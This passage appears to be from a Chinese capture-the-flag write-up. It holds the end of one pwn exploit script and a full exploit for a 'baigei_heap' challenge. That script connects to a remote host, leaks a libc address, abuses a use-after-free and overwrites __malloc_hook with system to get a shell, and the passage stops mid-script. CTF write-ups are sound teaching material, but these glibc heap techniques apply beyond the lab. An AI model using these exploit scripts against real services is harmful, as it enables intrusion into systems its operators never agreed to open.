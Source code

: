 ```python
payload=payload.ljust(0x100,'\x00')
r.sd(payload)
sleep(0.1)
r.sd('/bin/sh\x00'.ljust(0x100,'\x00'))

sleep(0.1)
r.sd('\n')

r.libc.address=u64(r.rv(8))-r.libc.sym['read']
Log("libc",r.libc.address)
# sleep(0.1)
# r.sd('a'*0x3b)
sleep(0.1)
r.sd(p64(r.libc.sym['system']).ljust(0x100,'\x00'))
r.sl("cat flag >&2")

r.ia()
```

## baigei_heap

0 solved

### 题目描述

白给堆, 正如其名. 首先想办法`leak libc` 接下来常规操作UAF, 分配到`__malloc_hook`即可. 

啥都给了, 简单的很. 

### 利用

```python
from q4n import *

r=PWN("./baigei_heap_8fbdfa98bf88f62eb922f6f1263e505f")
# r.proc()
r.remote("222.201.144.148","28085")
def menu(idx):
    r.sla(">> " ,str(idx))
def add(sz,con):
    menu(1)
    r.sla("size?\n",str(sz))
    r.sla("content?\n",con)
def free():
    menu(3)
def edit(con):
    menu(2)
    r.sla("content?\n",con)

add(0x60,"a")
free()
add(0x60,"a")
free()
add(0x70,"a")
add(0x100,"a")
free()

add(0x60,"a"*8)
r.ru('a'*8)
r.libc.address=u64(r.rl()[:-1].ljust(8,'\x00'))-0x3c4b78
free()
edit(p64(0x3c4b10-0x13+r.libc.address))
add(0x60,"a"*8)
add(0x60,'a'*3+p64(r.libc.sym['system'])) #
```